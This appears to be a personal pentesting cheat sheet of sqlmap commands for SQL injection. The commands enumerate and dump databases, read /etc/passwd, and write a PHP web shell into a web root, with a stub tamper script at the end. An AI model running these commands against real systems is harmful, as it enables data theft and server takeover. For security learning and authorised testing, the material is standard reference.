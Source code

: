 ```yaml
---
title: "SQL Injection"
date: 2024-6-30
tags: ["SQL", "SQL Injection", "MySQL", "Sqlmap", "Nosql", "Sqlite", "SQLi", "Burpsuite", "Database Dumping", "Database"]
---
```


### sqlmap

```console
# In Burp Suite, we can right click the request and click `copy to file` to save the request
# And add `*` to request to indicate the sql injection point
```

<br>

```console
# Initial testing HTTP
sqlmap -r request --batch --banner --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10
```

```console
# Initial testing HTTPS
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --force-ssl
```

```console
# Add a string to indicate injection succeed (e.g. Invalid User vs Error Occurred)
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --string 'Invalid User'
```

```console
# Get databases
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --dbs
```

```console
# Get tables
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 -D <DB_NAME> --tables
```

```console
# Dump table
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 -D <DB_NAME> -T <TABLE_NAME> --dump
```

```console
# Dump all tables (slow)
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 -D <DB_NAME> --dump
```

```console
# Specify technique
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --technique U
```

#### Technique

```console
+------------------------+
| B: Boolean-based blind |
| E: Error-based         |
| U: Union query-based   |
| S: Stacked queries     |
| T: Time-based blind    |
| Q: Inline queries      |
+------------------------+
```

#### Advance sqlmap

```console
# File write
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --random-agent --file-write ./cmd.php --file-dest /var/www/html/cmd.php
```

```console
# Add payload tamper script, e.g. randomcase
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --tamper randomcase
```

```console
# Check privileges
sqlmap -r request --privileges
```

```console
# Read a file
sqlmap -r request --file-read=/etc/passwd
```

```console
# Write a file
sqlmap -r request --file-write=./test.txt --file-dest=/tmp/test.txt
```

#### tamper.py template

```python
#!/usr/bin/env python3

from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    return payload
```

<small>*Note: create an empty \_\_init\_\_.py in the same folder*</small>
